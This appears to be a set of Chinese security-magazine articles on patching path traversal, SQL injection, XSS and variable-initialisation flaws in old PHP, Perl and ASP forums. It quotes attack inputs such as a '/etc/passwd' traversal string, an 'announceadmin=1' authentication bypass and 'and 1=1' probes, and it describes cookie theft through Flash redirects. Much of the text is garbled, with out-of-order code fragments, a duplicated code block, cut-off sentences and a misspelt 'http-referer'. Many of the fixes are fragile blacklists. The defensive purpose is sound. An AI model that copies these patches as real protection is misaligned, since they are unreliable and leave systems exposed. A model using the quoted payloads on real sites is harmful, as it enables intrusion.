那如何在 Web 服务中避免路径泄露？漏洞虽小，但俱“千里之堤，溃于蚁穴”。方法是有的，我这里还是现实点，拿大多数朋友选用的 Web 平台 IIS 来说，首先你得保证使用最新版本并打了最新补丁，包括 IIS、脚本语言解释器（如 ActivePerl）、引擎插件、组件、辅助程序；其次是配置方面的问题，首当其冲的是“检查文件是否存在”，具体是：IIS / 站点 / 属性 / 主目录 / 配置 / 应用程序映射 / 编辑 / 检查文件是否存在；这样做不仅可避免“请求不存在文件”泄露路径，还可阻挡一些其他攻击，如拒绝服务或溢出攻击。

还记得 NSFOCUS 发现 ActivePerl 所带的一个动态链接库（perlIS.dll）在处理超长文件名时存在的一个缓冲区溢出漏洞吗？最简单的解决方法就是检查文件是否存在，再者便是要求程序员编写规范脚本，这是最重要的。错误处理是各种语言编程中一个很重要的必不可少的部分，虽然各种语言都提供了完善的出错处理函数，但你也得正确使用它，如 Perl 中的“die”函数，如果没有在错误信息后面加上“\n”的话，就很可能导致物理路径泄露。然而，脚本程序员却一直忽略了这些问题，任何时候程序员都应该做好充分的考虑，给出完整的出错处理方案。

后记：路径泄露是个广泛存在的缺陷，要彻底完整地分析它需要很多方面的知识，可惜的是一直没人来专门讨论这个话题。我们今天在此希望可以抛砖引玉，希望在这方面有比较深入研究的朋友继续投稿讨论。

## WDB 漏洞的修复及相关防范

文 / PsKey



在《WDB及其各个美化、改良版均存在严重漏洞》一文中，大家可以了解到各个流行的 WDB 论坛存在的两个严重漏洞：Sendmail.php 变量过滤不严漏洞和 announcesys.php 变量未初始化漏洞及变量未过滤漏洞。这两个漏洞都能给论坛，甚至是系统安全带来很大的威胁。因此，本文向大家介绍修复这两个漏洞的方法，并简要地谈谈此类漏洞的安全防范。

第一个漏洞的机理是因为脚本没有过滤“..”和“\”，导致攻击者可以跳转目录读取系统敏感文件。从代码中可以看到，脚本过滤了“/”，显然作者考虑不够周全。仅过滤这个字符是不够的，在 Windows 平台下，攻击者可能利用类似“..\..\”的方法来跳转目录以读取任意文件，所以我们只有把这些危险字符全部过滤干净，才能解决此漏洞。临时解决方案如下：

把 Sendmail.php 文件中语句：

```php
if (strpos($target,"/")!==false) die;
```

改为：

```php
if ((strpos($target,"/")!==false) || (strpos($target,"\\")!==false) || (strpos($target,"..")!==false)) die;
```

如此修改后，当攻击者尝试使用这些字符跳转目录时，脚本便会停止执行。

而第二个漏洞则首先是因为 $announceadmin 变量没有初始化，导致非法用户可以绕开验证，接着是 $membern 变量没有经过任何安全过滤，使得攻击者有可能向系统文件中写入恶意代码，从而威胁论坛或者服务器安全。既然问题很清楚了，那解决起来也很简单，这里先给出临时解决方案：

在 announcesys.php 文件顶部加上如下语句：

```php
$announceadmin=0;  // 初始化变量
```

在语句 `$title=stripslashes(safe_convert($title));` 后加上：

```php
$membern=stripslashes(safe_convert($membern));
```

另外，我们借助 PHP 配置选项也可以减缓这一漏洞的威胁，具体做法是把配置文件 php.ini 中的 register_globals 选项关闭，即“register_globals = Off”。

接下来，我给大家简要地谈谈类似如上两种漏洞的防范。

第一类漏洞危害比较大，在各个脚本语言程序中都可能存在。其往往是因为程序员没有过滤“..”、“/”、“\”而造成系统重要文件泄露。现在，一般的程序员都知道要过滤“..”或“/”，但还是有很多人经常忽略掉“\”，还……

## LB5K 论坛 search.cgi 文件漏洞修复及相关防范

文 / PsKey


相信看过《LB5K论坛search.cgi文件漏洞再现》的朋友都会非常吃惊：为什么曾经修复过漏洞的文件会再次出现新漏洞？其实这个新漏洞的原理很简单，但为什么一直到今天都没人发现它呢？这是因为大家保守地认为当时漏洞发现者和作者给出修复方案并修复了漏洞后，此文件已经非常安全了，漏洞就是在这种观念的庇护下隐匿了近两年之久。所以，本文首先要强调的是：关于 Web 应用程序的安全防范绝对不能想当然、迷信权威，而应该仔细地审查每一个文件、每一行代码，尽力做到滴水不漏。

> pig_i：安全从来没有可能一步到位的，一个文件是这样，一个系统也是如此。

记得《飞客杂志》第 55 期雨林小狗的经典文章《Perl CGI problems》吗？文中着重提到了反斜杠在翻转目录中的妙用：

```text
如下匹配表达式试图过滤“..”：s/\.\.\//g;
它会把攻击者的“/usr/tmp/../../etc/passwd”变为“/usr/tmp///etc/passwd”
但要是攻击者提交“/usr/tmp/\.\./\.\./etc/passwd”，他便可能如愿以偿。
```

因此，我们程序员在处理用户提交数据时不仅不能手软，而且还要万分细心，千万别漏掉什么字符了。W3C 建议 CGI 程序员过滤掉“& ; ' \" | * ? ~ < > ^ ( ) [ ] { } $ \n \r \t \0 # ../”等字符。

第二类漏洞则是 PHP 安全中的经典问题——全局变量问题。全局变量的确给 PHP 程序员带来了很多方便，但烦人的是它也带来了同样多的安全问题。就拿 WDB 第二个漏洞来说，攻击者只需自己指定“announceadmin=1”，那么善良的全局变量便会天真地相信并将 $announceadmin 变量值设置为 1，从而导致攻击者大摇大摆绕过验证。尽管在使用变量前进行初始化可以解决这一问题，并且也可以使用 error_reporting 配置变量来提醒你初始化使用的变量，但这给程序员带来的麻烦未免也太多了。过去大家可以使用 $HTTP_GET_VARS 和 $HTTP_POST_VARS 这样的联合数组来访问 GET 和 POST 的值，而现在自动全局数组变量则是个不错的选择。因为从 PHP 4.2.0 版本开始，php.ini 中的设置选项 register_globals 默认值变成了 off，这样我们使用自 PHP 4.1.0 版本引入的自动全局数组变量会更好些，这样你可以杜绝此类安全问题的出现，但不幸的是，抱残守缺的懒惰的程序员老是喜欢打开这扇危险之门。

在你的论坛没有完全修复该漏洞前，建议你先暂时关闭论坛的搜索功能，以减轻该漏洞带来的威胁，待修复后再开放该功能。

pig_j：呵呵，其实大家完全没有必要关闭该功能哦！PsKey 下面这不就告诉了你解决办法吗？

LB5K 这次的漏洞出在 search.cgi 文件上，由于该文件有大量变量只作了简单的限制，导致非法用户利用论坛搜索功能时，可以巧妙地构造恶意代码插入到搜索生成的文件中，然后调用生成的文件发动攻击。说白了，问题还是因为程序没有很好检查用户输入，变量未严格过滤。search.cgi 文件只对部分变量做了如下简单处理：

```perl
43  $tp = $query->param($_);
44  $tp = &unHTML("$tp");
...
49  $SEARCH_STRING =~ s/^system //g;
50  $SEARCH_STRING = &stripMETA($SEARCH_STRING);
```

$SEARCH_STRING 变量还说得过去，其他的就用 unHTML() 函数转换了一部分元字符，这明显不够。因此，我们修复这个漏洞，需要做的便是检查用户输入，对变量作严格过滤。

在如下代码中可以找到我们需要限制的变量：

```perl
178  open(SEARCH, ">$searchfilename");
179  print SEARCH "$CUR_TIME\n";
180  print SEARCH "$SEARCH_STRING\n";
181  print SEARCH "$TYPE_OF_SEARCH,$SEARCH_DAY,$SEARCH_TIME\n";
182  print SEARCH "$REFINE_SEARCH\n";
183  print SEARCH "@FORUMS_TO_SEARCH,$H_SEARCH\n";
184  close(SEARCH);
```

变量实在是太多了，一一处理实在烦琐。为了安全，我们可以过滤得绝一点，把所有的特殊字符全部去除，用下面这个小函数 security() 来做到这点：

```perl
sub security {
    my $str = shift;
    $str =~ s/[`~!@#$%^&*()\-_=+\\|\[\]{};:'",.<>\/?]+//sg;
    return $str;
}
```

逗号还是得保留，因为搜索多个关键字之间是使用逗号“,”分隔的。需要注意的是，这样做之后可能给使用上带来一点点异常，但毕竟安全第一。把如上的小函数放置在 search.cgi 文件末尾，然后在原文件第 44 行即语句 `$tp = &unHTML("$tp");` 之后加上如下代码：

```perl
$tp = &security("$tp");
```

pig_j：上面的那一大串密密麻麻的，你是不是会敲得很郁闷呢？一不小心可就会敲错了哦！如果您实在没有工夫自己补这个文件，也没有关系。因为在我的威逼利诱之下，PsKey 已经把打好补丁的 search.cgi 文件放在光盘中了，毕竟读者至上哦。

做完了这些之后，大家就不要担心坏人使坏了，因为他们提交的数据全部要被我们的 security() 函数审查。

看到这里，有些朋友可能就有疑问了，如果所有的文件都这样过滤一下，那样不就杜绝安全漏洞而达到绝对安全吗？其实不然，安全固然重要，如此一来，程序员大可不必为安全问题烦心了，但我们也要考虑普通用户使用过程中的感受，执行严密的过滤后会给程序的功能带来一定的限制，并且给用户的使用也会造成一些不便。因此，我们需要在安全性和可用性之间找一个平衡点，不要企盼有什么一劳永逸的安全解决方案，而应该把安全意识贯穿到设计程序、编写代码的整个过程中，谨小慎微，尽量做到程序功能强大的同时，安全方面也要足够牢固。

## DVBBS 新漏洞的修复及相关防范

文 / PsKey

本文专门讲述了《动网论坛漏洞归来》一文中提到漏洞的防范方法。其实这个漏洞补起来比较简单，但是这类问题似乎就一直存在。如果想从根本上解决，看起来要从程序最初设计的时候就开始着手考虑安全问题比较好。

最近 DVBBS 接二连三出现了一些漏洞，很是惹眼。其实这些漏洞的成因和利用方法都大同小异，但为什么没有根除此类漏洞呢？恐怕是因为文件多了，疏忽遗漏是在所难免的。这也印证了一个道理：程序员必须把安全理念贯彻到程序编写的始末，若是抛开安全埋头写程序，等完结了再来找安全问题，那肯定就是目不暇接或猝不及防了。

现在大家在编写 ASP 程序的时候都会比较重视 SQL Injection 的问题，一般来说，预防措施就是过滤掉单引号或把单引号替换为空。表名变量往往在这种看似安全的措施保护下潜藏了一些安全漏洞，对于此类变量往往过滤了单引号还不能解决问题，比如说文章《动网论坛漏洞归来》提到的问题，虽然其中的 stable 变量过滤了单引号，但攻击者完全不需要单引号也可以实现攻击，如控制论坛或入侵系统。

利用该漏洞在 MSSQL 版 DVBBS 的攻击方法我已经在文章中写得很清楚了，有兴趣的朋友可以看看。我们现在来具体看看解决方法。在我的攻击文章中大家可以看到，我们提交的用于攻击的 URL 都包含了“;”和“--”，因此我们过滤了它们即可减缓漏洞的威胁。具体补丁我已经为大家写了，下面是补丁中添加的关键代码：

```asp
stable=checkstr(request("stable"))
'后添加
stable=replace(stable,";","")
stable=replace(stable,"--","")
```

**提示：** 直接用光盘中的补丁程序 queryResult.asp 覆盖论坛的该文件就可以了。

这种修正方式是按 DVBBS 的风格来的，在我看来，“只允许使用特定字符”的脚本安全机制远比“不允许使用特定字符”的安全机制安全，因为后者的思想是消除已知的攻击威胁，但很多事是难以预料的。说不定一旦放开这些受限制的字符组合，或者攻击者找到其他未受限制的字符组合发起有效攻击，那后一种安全机制便土崩瓦解了。

以下脚本是“只允许使用特定字符”安全机制的一个简单例子，是一个只允许用户提交的变量包含字母和数字的函数。很简陋，仅说明问题：

```asp
function check(var)
  grant="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
  checked="yes"
  for i=1 to len(var)
    checking=instr(1,grant,mid(var,i,1))
    if checking=0 then
      checked="no"
      response.write "您的提交包含非法字符"
      response.end
    end if
  next
end function
```

**后记：** 字符过滤问题一直都是脚本安全中的一个比较容易忽视的问题。从目前发现的一些漏洞来看，大部分脚本漏洞都属于这个范畴。或许很多人希望重视这一问题，但动手做起来的时候似乎又很难下手了，什么原因呢？

## 漏洞和防范机制



常见 ASP 程序的两大漏洞，相信大家已经很清楚它们的形成过程了，那么怎样有效地防治便成为了我们行文的目的。

易理解性、易测试性和易修改性是衡量一套软件程序可维护性的重要标志。ASP 程序同样如此，要想防范 ASP 程序常见的这几种错误，首先在编写代码的时候就要注意以下两个方面：

- 1. 针对变量未过滤型漏洞

尽量少地取用用户提交的变量数据。对每个带入 SQL 语句的变量，应该使用 replace 函数删除特殊字符，如下所示：

```asp
replace(id,"'","''")
replace(id,";","")
replace(id,"--","")
replace(id,"(","")
```

这样就将变量 id 中的单引号、分号、注释符、左括号等进行替换。并且这些替换与判断工作应尽量放在一起，靠近 SQL 语句，以方便以后的复查工作。对于字段属性是数字的变量，最好使用 cint() 或 IsNumeric() 函数判断 Request 得到的数据是否为整型。

```asp
If ID <> "" then ID = cint(ID)
If IsNumeric(ID) = 0 Then ID = 0
```

如果编写的是留言本，或者是论坛的话，还应该考虑到用户发帖的长度，以及用户发帖的时间间隔等问题。

- 2. 针对逻辑错误漏洞

构建良好的程序逻辑结构对于简单的新闻系统来讲，在管理员后台的编写时，所有文件推荐用“admin_”这种特定标记开头。然后专门写一个检查管理员登录的 session 变量文件 session.asp，除登录页面与登录处理文件外，其他后台文件都在第一行包含检查文件来验证管理员是否登录。

其中，稍微要注意的是验证管理员账号密码，以及产生登录 session 的 admin_chklogin.asp 文件的编写。有时候管理员会使用单引号等特殊字符做密码，不能简单过滤；并且为了避免在虚拟机上被他人利用，session 信息也应该使用变量来设置。笔者写法如下：

```asp
username = Request.Form("username")
password = Request.Form("password")
if username="" or password="" then Response.Redirect("admin_login.asp")
set rs=conn.execute("SELECT top 1 Admin_name, Admin_password FROM Admin")
Admin_name = rs("Admin_name")
Admin_password = rs("Admin_password")
if (username <> Admin_name) or (password <> Admin_password) then ...
```

看完玫琳《盗帅文章系统存在变量未处理漏洞》一文，身为网站管理员的你是不是有点心惊胆战？

文章管理系统存在不少漏洞，其威力不可小视！下面针对盗帅和动网的文章管理系统漏洞的防范方法，正是给各位管理员一剂良方！

## 对 ASP 文章系统变量未处理漏洞的防范



存在此漏洞的 ASP 程序不在少数，几乎没有安全知识的 ASP 程序员都会犯。不是说没有安全意识，我看到的 ASP 教程里好像都没有安全的部分。况且功能达到了，自己也就认为完事了，殊不知没有检查用户提交的变量。现在我们来修补这些漏洞，其他的 ASP 程序也可以这样来杜绝。

```asp
response.end
end if
```

注意，这里声明了一个 idid 变量，用来检查 id，所以后面的查询语句中的 id 要改为 idid。这样不管别人是提交单引号、分号，还是 and 1=1、and 1=2，都是显示“禁止提交非法语句！”，这样谁还能判断真假啊？这里也给广大 ASP 开发人员提个醒：凡是放到 SQL 查询语句的变量都要经过严格检查，禁止一切特殊字符。安全的程序，用户用得也安心。

还有另一种方法，看下面这段代码：

### 解决办法

我们先来看看攻击的那篇文章里，盗帅的文章管理系统的 show.asp。其实这是很简单的东西，对学过 ASP 的人都可以一眼看出，id 这个变量没有做检查，从而让我们可以直接提交子查询语句。

前面说了那么多攻击方法，下面说说出现这类漏洞如何解决。因为是没有检查提交的变量，那我们就要加一些代码来检查一下。把下面的短短代码加入到查询语句的前面，这样就会先检查提交的变量，才放到 SQL 查询语句中。

```asp
dim idid
idid=replace(request("id"),"'","")
if isnumeric(idid)=0 or idid="" then
  response.write "禁止提交非法语句！"
  'Response.Redirect "index.asp"
end if
```

如果不想提示错误信息，可以使用这行，跳转页面回首页。

```asp
Function isInt(str)
    Dim L, I
    isInt=False
    If Trim(str)="" Or isNull(str) Then Exit Function
    str=CStr(Trim(str))
    L=Len(str)
    For I=1 To L
        If Mid(str,I,1)>"9" Or Mid(str,I,1)<"0" Then Exit Function
    Next
    isInt=True
End Function
```

```asp
Function CheckStr(str)
    If Trim(str)="" Or IsNull(str) Then Exit Function
    CheckStr=Replace(Trim(str),"'", "")
End Function

Dim id
id=CheckStr(Request.QueryString("id"))
If IsInt(id)=False Then
    response.write "禁止提交非法语句！"
    'Response.Redirect "index.asp"
    response.end
End If
```

```asp
...
if rs("Nkey")<>"" then
    key=rs("Nkey")
else
    key="None News"
end if
%>

rs.movenext
loop
end if
rs.close

dim key
dim idid
idid=replace(request("id"),"'","")
if isnumeric(idid)=0 or idid="" then
    response.write "禁止提交非法语句！"
    response.end
end if

sql="select * from article where articleid="&idid
rs.open sql,conn,1,1
if rs.eof and rs.bof then
    response.write "没有找到相关文章。"
    response.end
end if

if rs("Nkey")<>"" then
    key=rs("Nkey")
else
    key="None News"
end if
%>
```

这里写了两个 Function 过程来判断数字是否整型，还有检查一些非法字符。如果有则提示“禁止提交非法语句”，其实也和上面的第一种方法差不多，大家可以试试。多掌握一种方法也不是坏事。方法实在太多了，不可能一一列出，就此打住。

动网文章系统的使用者不在少数。但自 PsKey 发现 SQL Injection 漏洞后，没有修补的也不在少数。因为官方并没有发布安全补丁，所以这里还是把修补后的一段完整代码给大家。

打开 list.asp，找到下面代码：

```asp
%>
rs.movenext
loop
end if
rs.close
dim key
sql="select * from article where articleid="&request("id")
rs.open sql,conn,1,1
if rs.eof and rs.bof then
    response.write "没有找到相关文章。"
    response.end
```

大家也看到了，只是添加了检查 id 变量的代码而已，这段代码由炎黄兵团提供。如果大家觉得麻烦，也可以用我们前面提到的办法，都是一样的。

如果实在不会改，还有一个下策就是使用中文用户名和密码。中国的文字有多少，大家自己看看吧。还有，提交中文的语句，大家也可以看看有什么有趣的提示，也不失为一个好办法。呵呵，鄙人才疏学浅，可能分析不够透彻。如有错漏，恳请指出。

## 跨站脚本之防患未然

文 / H-key

对于大部分读者来讲，都或多或少地了解 Flash 跨站脚本漏洞及其攻击方法，这确实是一个很普遍的漏洞，有必要详细地为大家说一下如何防范。

基本的防范主要有以下几点：

第一，比较普遍的就是去掉 Flash 动画的插入。去掉的方法很简单，以动网为例，在 BBS 目录下的 INC 下的 getubb.asp 里，最下面有这样一段代码（图1），把 Flash 那行代码去掉就可以了！此方法安全指数为 98%，比较彻底，鱼与熊掌不能兼得。

其实对一个技术性的论坛来说，Flash 功能应用不是很多，去掉也无妨；只是似乎有些太狠了，显得没有技术水平！但是没办法，谁让 Flash 跨站是把脚本加在 Flash 里呢，就像一碗溶解了毒药的汤，想不中毒都难！

想保留 Flash 的办法不是没有，那就是第二种方法：增加个人安全性。

第二，提高个人安全级别。其实系统默认安装的安全级别已经足够安全了，只是由于个人浏览网页实在是不方便，烦人的安全提示不说，面对那些和文本没什么太大区别的网页也够受啊，只有自己动手设置……

……但是还是要以安全为主。基本的脚本禁止加上个人的安全意识，已经足够了，即使是遇到跨站，也不会中招，而且还能让跨站原形毕露。所谓防君子不防小人，如果有人精心策划地让你中招，那就防不胜防了。此方法安全指数为 99%。

第三种方法有点虚伪，可以说是欺骗群众吧，但是这种方法还是被广泛采用，就是保留 Flash 功能，允许你发 Flash，但是当你填好路径，点击发帖时，会有一个对话框“禁止从外部提交数据”或者“您提交的数据可能带有安全隐患”。帖子里面只显示 FLASH 的路径，完全失去了 Flash 的动感和应有的效果，但是体现了 Admin 的仁慈——还保留着 Flash 的功能！

修改方法可以在论坛管理中直接去掉 Flash 的预览功能，也可以自己手动修改在 BBS 目录下的 INC 下的 ubbcode.asp 和 ubbcode.js（图1、图2）。此方法安全指数无法确定，全凭个人安全意识。

这些图示说明了在论坛支持 Flash 功能的时候，可以通过 Flash 文件转跳到一个指定的 URL 上。如果这个站点上放了一段指定代码，那么就可以抓取当前访问者的 Cookies；如果是管理员访问的话，那么得到的权限就更大了，我们可以做一切我们想做的事情。或者可以通过 Flash 来运行另一个站点的恶意 HTML 代码，那么造成的损失就无法估计了。所以在脚本防护这里，除了脚本代码问题，一定要防范一些附带的功能。





## ReleaseEasy2 漏洞大补救


文 / Roy

在攻册的文章中，我们已经指出了 ReleaseEasy2 的一些漏洞，这些漏洞中有一些是很致命的，能让入侵者控制整个服务器，泄漏整站代码。其实，我们只要安全意识高一些，多做一些限制，便可以让自己的代码安全不少。下面就简单地说说如何有效地防范 ReleaseEasy2 漏洞。

首页程序 display.php 的问题使得入侵者可以越界访问。如果我们把可以访问的目录控制在原来让用户访问的目录，安全性就会好一些。我们可以像 visit_dir 一样禁止用户访问目录，代码如下：

```php
if (strstr($filesource, '../') == TRUE) {
    hold('wrong', '所要访问的文件名有误');
    exit;
}
```

变量不允许用户遍历目录，限制用户只能访问被授权的文件类型，至少得让用户不能提交含有“/”的连接。实现代码如下：

```php
if (strstr($filesource, '../') == TRUE) {
    hold('wrong', '所要访问的文件名有误');
    exit;
}
```

将以上代码加在程序 `if (get_ext_name($filesource) == 'php')` 的上面即可。

如果你需要让程序更安全一点，你可以使用正则表达式，让用户只能访问 txt 等 mainstory 必须访问的文件类型；或者使用 ReleaseEasy2 中禁止用户访问 PHP 类型文件一样的方法。代码如下所示：

```php
if (get_ext_name($filesource) != 'mainstory') {
    hold('noaccess', '不可以乱打开文件哦');
    exit;
}
```

对于威胁更大的 comment.php 文件的漏洞，建议关闭评论功能，然后删除此文件，一般的用户不会用到评论功能。如果确实需要使用，和前两个文件一样，我们限制用户访问目录和 PHP 文件的权限。代码如下：

```php
if (get_ext_name($name) != 'mainstory') {
    hold('noaccess', '不可以乱打开文件哦');
    exit;
}

if (strstr($name, '../') == TRUE) {
    hold('wrong', '所要访问的文件名有误');
    exit;
}
```

将以上代码请加在 `if ('view' == $action)` 中，没有正式打开评论文件的代码前。

将以上代码加在程序靠上的部分，没有做打开文件动作的前面。readarticle.php 文件真的是做得太粗糙了，而且一般我们不会用到它，所以推荐你删除这个文件，用其他方式来接替 readarticle.php 的作用，比如直接让用户下载原本要用 readarticle.php 打开的文件。否则，就需要我们严格地限制 filesource 变量。

## 防御约稿奇兵沦陷在即漏洞

在攻册上，我们仔细分析了约稿奇兵可能存在的各种致命漏洞，并给出了一些漏洞的基本利用方法。那么我们该如何防范这些存在的漏洞呢？其方法和许多程序一样——过滤字符。

第一个问题就是跨站脚本攻击。由于没有进行脚本过滤，导致可以构造特殊 HTML 代码进行攻击，所以我们必须加上过滤代码来过滤，`HTMLEncode(&username)` 就可以简单地屏蔽脚本攻击了。另外，对于跨站和外部提交的问题，对提交文件，如 post.asp、reg.asp 等文件加一个检验就可以了。其代码如下：

```asp
if instr(request.servervariables("http-referer"),"e3i5")<1 then
    response.redirect "index.asp"
end if

'e3i5 为你所用站点的域名私有部分，当然也可以使用地址连接里看的字符串，都可以使用。

or

if instr(request.servervariables("http-referer"),"http://" & request.servervariables("host"))<1 then
    response.redirect "index.asp"
end if
```

另外，我们也可以参考一下动网的 char.asp 文件进行修改。

第二个问题就是 SQL Injection 攻击。有人认为 SQL Injection 攻击千变万化，难以防范。其实再怎么灵活的技术，只要对用户提交的变量进行完整的过滤，都不可能有问题。下面给出一段可以直接引用的代码：

```asp
dim id
id=replace(request("id"),"'","")
if isnumeric(id)=0 or id="" then
    response.write "禁止提交非法语句!"
    response.end
end if
```

